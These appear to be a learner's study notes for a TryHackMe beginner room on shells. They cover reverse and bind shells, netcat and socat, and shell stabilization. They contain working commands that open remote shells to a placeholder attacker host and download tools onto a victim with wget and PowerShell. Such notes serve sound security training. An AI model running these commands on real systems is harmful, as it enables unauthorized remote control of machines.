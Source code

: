 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-27

## What the Shell?

### What Is a Shell?

Terminology:

* REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
* BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

### Tools

Typical tools for creating reverse shells or connecting to bind shells:

* `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
* `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
* `auxilary/multi/handler` is the netcat/socat equivalent in Metasploit. It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
* `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

* [Using Metasploit](../notes/metasploit.md)

### Types of Shells

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

### Netcat

While binding to well-known ports requires the use of sudo, it's also less likely to get flagged/blocked by intermediate firewalls.

### Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It's generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn't redirect control sequences, so Ctrl+C will still kill the connection).

It's also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you'd transfer this binary is by first spinning up a simply webserver in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

* UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
* WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows	emp\socat.exe`

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.

* [Quick-n-Dirty Python Web Server](../notes/quick-n-dirty-python-web-server.md)

### Socat

Socat: Just an anything-to-anything connector!

| Role                     | netcat                                        | socat                                                        |
|:------------------------ |:--------------------------------------------- |:------------------------------------------------------------ |
| Reverse shell (attacker) | `nc -lnp $LISTENER_PORT`                      | `socat TCP-LISTEN:$LISTENER_PORT -`                          |
| Reverse shell (target)   | `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash` | `socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"` |
| Bind shell (attacker)    | `nc $TARGET_IP $LISTENER_PORT`                | `socat TCP:$TARGET_IP:$LISTENER_PORT`                        |
| Bind shell (target)      | `nc -lnp $LISTENER_PORT -e /bin/bash`         | `socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"`       |

This gets us an interactive login shell right out the gate, though we're still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it's perfectly acceptable to kick off a socat process from inside a netcat process!
